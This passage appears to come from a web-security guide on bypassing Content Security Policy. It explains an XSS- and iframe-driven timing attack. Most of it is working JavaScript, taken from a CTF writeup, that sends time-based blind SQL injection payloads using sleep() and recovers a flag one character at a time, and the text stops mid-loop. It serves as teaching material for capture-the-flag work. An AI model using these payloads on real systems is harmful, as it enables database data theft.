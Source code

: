### img-src \*; via XSS (iframe) - Time attack

Notice the lack of the directive `'unsafe-inline'`\
This time you can make the victim **load** a page in **your control** via **XSS** with a `<iframe`. This time you are going to make the victim access the page from where you want to extract information (**CSRF**). You cannot access the content of the page, but if somehow you can **control the time the page needs to load** you can extract the information you need.

This time a **flag** is going to be extracted, whenever a **char is correctly guessed** via SQLi the **response** takes **more time** due to the sleep function. Then, you will be able to extract the flag:

```html
<!--code from https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle -->
<iframe name=f id=g></iframe> // The bot will load an URL with the payload
<script>
let host = "http://x-oracle-v1.nn9ed.ka0labs.org";
function gen(x) {
	x = escape(x.replace(/_/g, '\\_'));
	return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`; 
}

function gen2(x) {
	x = escape(x);
	return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`;
}

async function query(word, end=false) { 
	let h = performance.now();
	f.location = (end ? gen2(word) : gen(word));
	await new Promise(r => {
		g.onload = r; 
	});
	let diff = performance.now() - h;
	return diff > 300;
}

let alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789'.split('');
let postfix = '}'

async function run() {
	let prefix = 'nn9ed{';
	while (true) {
		let i = 0;
		for (i;i<alphabet.length;i++) {
			let c = alphabet[i];
			let t =  await query(prefix+c); // Check what chars returns TRUE or FALSE
			console.log(prefix, c, t);
			if (t) {
				console.log('FOUND!')
				prefix += c;
				break;
			}
		}
		if (i==alphabet.length) {
			console.log('missing chars');
			break;
		}
		let t = await query(prefix+'}', true);
		if (t) {
			prefix += '}';
			break;
```